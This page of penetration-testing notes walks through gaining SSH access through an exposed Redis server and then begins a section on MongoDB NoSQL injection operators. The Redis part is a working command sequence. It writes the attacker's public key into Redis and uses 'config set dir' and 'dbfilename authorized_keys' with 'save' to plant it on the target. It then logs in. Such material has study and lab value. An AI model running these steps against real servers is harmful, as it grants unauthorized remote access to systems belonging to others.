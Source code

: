 **Generating pair of keys**

```
ssh-keygen -t rsa
```

**Copying the public key to a txt file**

```
(echo -e "\n\n"; cat /home/user/.ssh/id_rsa.pub; echo -e "\n\n") > public-key.txt
```

**Setting the key in redis**

The below command sets the key `pkey` in redis to have the same value of the public key.

```
cat /home/user/.ssh/public-key.txt | redis-cli -h ip -x set pkey
```

If the output of the above command is `OK` from the redis server then it means that your public SSH key has been transferred to the redis server.

**Transferring the key to /.ssh**

Next step is to get the public key we transferred stored in `/.ssh` of the target server running redis. We execute the below three commands

```
config set dir /var/lib/redis/.ssh
config set dbfilename "authorized_keys"
save
```

`/var/lib/redis` is normally the directory where redis is installed. You can learn that by executing the command `CONFIG get dir` to learn the installation path. `authorized_keys` is the file that stores the allowed public keys for login

**Logging in to the server**

Lastly if all went okay, we login with our private ssh key to the server

```
ssh -i id_rsa redis@ip
```

### Mongo NOSQL DB

Mono DBs can be exploited either in the browser by finding an entry point such as a login page or by interacting with the database itself. The exploitation of \[Mongo DB] is like any other \[NOSQL] database. It relies on an understanding of its operators. Below are the most important operators

```
$eq - matches records that equal to a certain value

$ne - matches records that are not equal to a certain value

$gt - matches records that are greater than a certain value.

$where - matches records based on Javascript condition

$exists - matches records that have a certain field

$regex - matches records that satisfy certain regular expressions.
```
